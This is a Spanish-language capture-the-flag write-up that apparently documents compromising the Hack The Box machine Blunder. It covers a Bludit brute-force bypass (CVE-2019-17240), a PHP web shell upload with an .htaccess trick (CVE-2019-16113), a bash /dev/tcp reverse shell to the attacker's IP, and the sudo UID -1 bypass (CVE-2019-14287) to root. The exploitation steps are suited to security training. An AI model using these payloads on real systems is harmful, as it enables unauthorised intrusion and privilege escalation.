---
# Descripcion

La máquina Blunder de Hack The Box es una máquina Linux de dificultad fácil que gira en torno a la explotación del CMS Bludit. Mediante la enumeración web, identificamos un usuario y conseguimos sus credenciales aprovechando un bypass de la protección contra fuerza bruta. Posteriormente, explotamos una vulnerabilidad de subida de archivos y Directory Traversal para obtener acceso inicial como www-data. Tras recuperar y descifrar el hash del usuario hugo, conseguimos movernos lateralmente. Finalmente, aprovechamos una vulnerabilidad de sudo (CVE-2019-14287) para escalar privilegios y obtener acceso como `root`

---


# Enumeración

## Nmap

> Empezamos con un escaneo completo de puertos. **Nmap** es la herramienta de referencia para descubrir hosts y servicios: lanzamos un barrido de todos los puertos TCP.

```bash
$ nmap -p- --open --min-rate 5000 -Pn -n -sS -v 10.129.95.225
```



> Una vez identificadoel puerto abierto `80` , lanzamos los scripts por defecto de Nmap para saber exactamente qué servicio y versión corre detrás.

```bash
$ nmap -p80 -sC -sV 10.129.95.225
```



## Web

> **WhatWeb** identifica tecnologías web (CMS, servidores, librerías) a partir de las respuestas HTTP. Nos sirve para confirmar rápidamente qué estamos viendo.

```bash
$ whatweb http://blunder.htb
```



- Web


> Estamos ante un sitio web que utiliza un CMS llamado `Bludit`. Tras navegar un poco por la web, no encontramos nada especialmente interesante, salvo una referencia en el código fuente que parece indicar que está utilizando la versión `3.9.2`.



> Vamos a utilizar `Gobuster` para enumerar archivos y directorios.

```bash
$ gobuster dir -u http://blunder.htb -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 100 -x php,html,txt,js,php.bak
```



> Si accedemos al archivo `todo.txt`:



> Parece que `fergus` podría ser un nombre de usuario válido. Vamos a investigar si existen vulnerabilidades conocidas para `Bludit` y la versión que hemos identificado.



> Encontramos dos vulnerabilidades principales. La primera, `CVE-2019-17240`, permite realizar un ataque de `bruteforce` para descubrir la contraseña de un usuario. La segunda, `CVE-2019-16113`, permite conseguir ejecución remota de comandos (`RCE`) aprovechando un fallo en la subida de archivos.
>
> Como ya tenemos un posible nombre de usuario, vamos a intentar obtener primero sus credenciales.

# Shell como www-data

## CVE-2019-17240 - Authentication Bruteforce

> [!NOTE]
> CVE-2019-17240
> es una vulnerabilidad de gravedad CRÍTICA (puntuación CVSS v3.1 de 9.8/10) que afecta a Bludit versión 3.9.2.  El fallo reside en el archivo bl-kernel/security.class.php y permite a los atacantes omitir el mecanismo de protección contra fuerza bruta mediante el uso de múltiples encabezados HTTP X-Forwarded-For o Client-IP falsificados y diferentes.

- Utilizaremos el siguiente script para automatizar el ataque de `bruteforce`:

```text
https://github.com/ColdFusionX/CVE-2019-17240_Bludit-BF-Bypass
```

- Ejecutamos el ataque:

```bash
$ python3 a.py -l http://10.129.95.225/admin/login.php -u user.txt -p /usr/share/wordlists/rockyou.txt
```

> Después de un rato, no conseguimos encontrar ninguna contraseña. Vamos a probar a generar un diccionario personalizado utilizando `CeWL`.

> [!NOTE]
> **CeWL** (*Custom Word List Generator*) es una herramienta de código abierto escrita en **Ruby** por Robin Wood. Permite generar diccionarios personalizados de contraseñas a partir del contenido de un sitio web, recopilando palabras que podrían utilizarse como contraseñas.

```bash
$ cewl http://blunder.htb > password.txt
```

> Volvemos a ejecutar el ataque de `bruteforce`, pero esta vez utilizando el diccionario que acabamos de generar.

```bash
$ python3 a.py -l http://10.129.95.225/admin/login.php -u user.txt -p password.txt
```



> Conseguimos encontrar la contraseña del usuario:

```text
user: fergus
pass: RolandDeschain
```

## CVE-2019-16113 - Remote Code Execution (RCE)

> Una vez autenticados, podemos continuar con la segunda vulnerabilidad, `CVE-2019-16113`, que nos permite conseguir ejecución remota de comandos (`RCE`).

> [!NOTE]
> CVE-2019-16113
> Para ello, aprovecharemos un fallo en la funcionalidad de subida de imágenes. El proceso consiste en subir un archivo PHP con una extensión de imagen. Aunque la subida falle, el archivo permanecerá almacenado en un directorio temporal.
>
> Posteriormente, sobrescribiremos el archivo `.htaccess` para configurar el servidor de forma que interprete los archivos `.png` como código PHP. De esta manera, podremos acceder al archivo que hemos subido y ejecutar comandos remotamente.

- Vamos a crear un nuevo post desde el `dashboard`.



- Interceptamos con `Burp Suite` la petición encargada de subir la imagen.



- Modificamos la petición, eliminando la imagen de prueba que habíamos añadido y sustituyéndola por nuestro código PHP:

```php
<?php system($_GET['cmd']); ?>
```



> Ahora vamos a subir el archivo `.htaccess`. La subida también fallará, pero el archivo quedará almacenado en el directorio temporal.

- Subimos el archivo `.htaccess` con el siguiente contenido:

```apache
RewriteEngine off
AddType application/x-httpd-php .png
```



> Ahora nos dirigimos a la siguiente ruta y comprobamos que podemos ejecutar comandos mediante el parámetro `cmd`:

```text
/bl-content/tmp/test.php?cmd=id
```



> Más abajo dejaré un script en `Python` que automatiza este proceso.
>
> Ahora vamos a intentar conseguir una `shell` interactiva.


- Ponemos nuestra máquina a la escucha con `Netcat`:

```bash
$ nc -nvlp 7777
```

- Enviamos la siguiente reverse shell:

```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.154/7777 0>&1'
```

> Al enviar el comando directamente, no conseguimos obtener una shell. Vamos a probar a codificarlo en `Base64` para comprobar si de esta manera conseguimos que se interprete correctamente.

```bash
$ echo 'BASE64' | base64 -d | bash
```



> Conseguimos obtener una `shell`. Vamos a comenzar con la enumeración del sistema.

# Shell como hugo

## Enumeracion

> Primero, vamos a listar los usuarios del sistema:

```bash
$ ls -ls /home
$ cat /etc/passwd | grep "sh"
```



> Encontramos tres usuarios. Vamos a continuar enumerando archivos y directorios.
>
> Si revisamos el directorio principal del usuario `www-data`, encontramos dos versiones de `Bludit`. Vamos a investigar la versión que no es accesible desde la web.



> Al acceder a sus archivos, encontramos en `user.php` un usuario almacenado con el nombre de `hugo`, junto con el siguiente hash:

```text
faca404fd5c0a31cf1897b823c695c85cffeb98d
```



> Intentamos obtener la contraseña utilizando `RockYou`, pero no conseguimos encontrarla. Por tanto, vamos a probar con la página web [CrackStation](https://crackstation.net/).



> Conseguimos recuperar la contraseña: `Password120`.

```text
user: hugo
pass: Password120
```

> Probamos a cambiar al usuario `hugo` y conseguimos autenticarnos correctamente.



# Shell como root

## Version de sudo

> Vamos a comprobar los permisos `sudo` del usuario:

```bash
$ sudo -l
```



> Podemos ejecutar `/bin/bash` como cualquier usuario, excepto como `root`. Vamos a comprobar la versión de `sudo` instalada en el sistema.



> Existe una vulnerabilidad en esta versión de `sudo` que permite realizar un bypass de las restricciones de usuario mediante la especificación de un UID numérico.
>
> En este caso, si intentamos indicar el UID `0`, que corresponde a `root`, la ejecución será denegada. Sin embargo, debido a un error en la gestión de valores numéricos, si indicamos el UID `-1`, `sudo` lo interpreta como si fuera el UID `0`, permitiéndonos ejecutar el comando como `root` y saltarnos la restricción establecida.

- **Ejemplo utilizando el UID `0`:**



- **Ejemplo utilizando el UID `-1`:**



> Finalmente, conseguimos obtener acceso como `root` y completar la máquina.